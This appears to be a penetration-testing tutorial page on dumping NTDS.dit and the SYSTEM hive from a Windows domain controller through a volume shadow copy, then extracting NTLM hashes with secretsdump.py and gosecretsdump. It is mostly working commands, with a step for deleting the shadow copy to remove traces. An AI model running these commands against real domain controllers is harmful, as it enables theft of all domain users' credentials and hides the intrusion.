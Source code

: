 ```yaml
---
title : "NTDS.dit Dump & Extract"
# pre : ' '
description : "How to dump NTDS.dit and extract the hashes with ShadowCopy and Secretsdump."
date : 2022-01-18T10:07:23+01:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## NTDS.dit Dump&Extract

On Domain Controller - create snapshot with `vssadmin.exe`.

### Step 1 - Create ShadowCopy

```plain
PS C:\> vssadmin.exe create shadow /for=C:
vssadmin 1.1 - Volume Shadow Copy Service administrative command-line tool
(C) Copyright 2001-2013 Microsoft Corp.

Successfully created shadow copy for 'C:\'
    Shadow Copy ID: {3d781b5d-e053-41ad-85d4-5b8f1ffb2d42}
    Shadow Copy Volume Name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy5
```

### Step 2 - Copy NTDS.dit and SYSTEM from ShadowCopy

NTDS:

```plain
PS C:\> copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy5\windows\ntds\ntds.dit c:\ntds.dit
```

SYSTEM:

```plain
PS C:\> copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy5\Windows\system32\config\system c:\system
```

Or use `reg save`

```plain
reg SAVE HKLM\SYSTEM c:\SYSTEM
```

You can also use [ShadowCopyView](https://www.nirsoft.net/utils/shadow_copy_view.html) if you prefer a GUI.

{{%attachments fa_icon_class="far fa-file-archive" pattern=".*(zip)"%}}

### Step 3 - Remove your Tracks

```plain
PS C:\> vssadmin delete shadows /shadow={3d781b5d-e053-41ad-85d4-5b8f1ffb2d42}
```

## Extract hashes

It can happen that [secretsdump.py]({{< ref"secretsdump-py" >}}) keeps looping and throwing out hashes. In this case, or maybe even preferably, use [Gosecretsdump]({{< ref "gosecretsdump" >}}).

### Secretsdump.py

```plain
secretsdump.py -system SYSTEM -ntds ntds.dit -hashes lmhash:nthash LOCAL -outputfile extracted-hashes -just-dc-ntlm -user-status -history
```

### Gosecretsdump

```plain
./gosecretsdump -system SYSTEM -ntds NTDS.DIT -history -status -out hashes.log
```

### Example NTDS/SYSTEM

Example `NTDS.dit` and `SYSTEM` files zipped below.

{{%attachments fa_icon_class="far fa-file" pattern=".*(NTDS.DIT-SYSTEM)"%}}

## URL List

- [Stealthbits.com - Extracting Password Hashes from the Ntds.dit File](https://stealthbits.com/blog/extracting-password-hashes-from-the-ntds-dit-file/)
